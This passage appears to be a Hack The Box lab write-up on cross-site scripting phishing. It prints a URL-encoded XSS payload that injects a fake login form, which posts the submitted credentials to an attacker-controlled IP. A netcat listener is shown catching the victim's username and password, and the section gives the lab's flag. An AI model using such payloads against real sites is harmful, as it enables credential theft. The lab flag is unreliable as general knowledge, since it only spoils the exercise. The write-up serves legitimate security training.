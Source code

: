 Victim: `http://10.129.100.203/phishing/send.php`

```
http://10.129.100.203/phishing/index.php?url=https://freeiconshop.com/wp-content/uploads/edd/image-outline-filled.png%27%20style=%22margin:%20-50px%200px%20-30px%200px;%22%3E%3Cscript%3Edocument.getElementById(%27urlform%27).remove();%3C/script%3E%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.15.133%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%20%20%20%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%20%20%20%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%3Cdiv%20style=%22display:none%27
```

The victim tried to login and netcat received the request.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80                       
listening on [any] 80 ...
connect to [10.10.15.133] from (UNKNOWN) [10.129.100.203] 39134
GET /?username=admin&password=p1zd0nt57341myp455&submit=Login HTTP/1.1
Host: 10.10.15.133
(...)
```

User:pass `admin:p1zd0nt57341myp455`

Now, we can login via the admin login portal at `/phishing/login.php`.

![](./attachments/Pasted%20image%2020220511000333.png)

**Answer:** `HTB{r3f13c73d_cr3d5_84ck_2_m3}`

---
## Session Hijacking
### Question 1:
![](./attachments/Pasted%20image%2020220511001659.png)

*Hint: Don't forget to set both the name/value of the cookie when using it.*

The page.
